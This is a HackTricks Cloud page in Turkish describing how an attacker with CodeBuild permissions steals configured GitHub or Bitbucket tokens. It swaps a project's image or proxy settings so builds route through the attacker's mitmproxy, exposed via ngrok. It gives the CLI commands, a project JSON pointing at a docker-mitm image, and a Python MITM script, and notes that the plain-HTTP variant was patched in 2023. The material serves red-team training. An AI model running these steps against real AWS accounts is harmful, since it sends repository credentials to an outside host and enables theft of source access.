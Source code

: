 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın:** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depoları.

</details>
{% endhint %}

## Github/Bitbucket Konfigüre Edilmiş Tokenları Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi olup olmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Image ile

Örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını fark ederseniz, Codebuild'i projenin derlemesini çalıştırmak için **belirli bir docker image kullanmaya** yönlendirerek bu **erişimi** (**GH token veya OAuth token**) **dışarı çıkarabilirsiniz**.

Bu amaçla, **yeni bir Codebuild projesi oluşturabilir** veya mevcut bir projenin **ortamını** değiştirerek **Docker image** ayarlayabilirsiniz.

Kullanabileceğiniz Docker image [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **`https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ortam değişkenlerini ayarlayacak çok basit bir Docker image'dir. Bu, **`https_proxy`** ve **`http_proxy`**'de belirtilen ana bilgisayarın trafiğinin çoğunu kesmenize ve **`SSL_CERT_FILE`**'de belirtilen SSL CERT'e güvenmenize olanak tanır.

1. **Kendi Docker MitM image'inizi oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı ayarlamak için repo talimatlarını izleyin ve **docker image'i oluşturun**.
* Metadata endpoint'ine yapılan istekleri kesmemek için **`http_proxy`'yi AYARLAMAYIN**.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`
* Docker image'i oluşturduktan sonra, **bir public repo'ya yükleyin** (Dockerhub, ECR...)
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut bir projenin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker image'i** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **MitM proxy'yi ana bilgisayarınıza ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şu tür bir şey kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**Kullanılan mitmproxy sürümü 9.0.1'di**, 10. sürümle bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Build'i çalıştırın ve kimlik bilgilerini yakalayın**

*   **Authorization** başlığında token'ı görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli'dan da şu şekilde yapılabilir

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP protokolü ile~~

{% hint style="success" %}
**Bu güvenlik açığı AWS tarafından 20 Şubat 2023 haftasında (muhtemelen Cuma günü) düzeltildi. Bu yüzden bir saldırgan artık bunu kötüye kullanamaz :)**
{% endhint %}

**CodeBuild üzerinde yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını veya izinler OAuth üzerinden yapılandırılmışsa, koda erişmek için kullanılan geçici OAuth token'ını sızdırabilir.**

* Bir saldırgan, **http\_proxy** ve **https\_proxy** ortam değişkenlerini kendi makinesine işaret edecek şekilde (örneğin `http://5.tcp.eu.ngrok.io:14972`) CodeBuild projesine ekleyebilir.

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Daha sonra, github deposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirebilir, örneğin: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Daha sonra, proxy değişkenlerinin (http\_proxy ve https\_proxy) işaret ettiği portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresindeki temel örneği çalıştırabilir.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** mitm portuna **açık metin** (base64) olarak **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, token'ı kendi makinesinden kullanabilecek, sahip olduğu tüm ayrıcalıkları listeleyebilecek ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay (kötüye) kullanabilecektir.
{% endhint %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin**.
* **HackTricks'e** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek **hacking ipuçlarını paylaşın**.

</details>
{% endhint %}
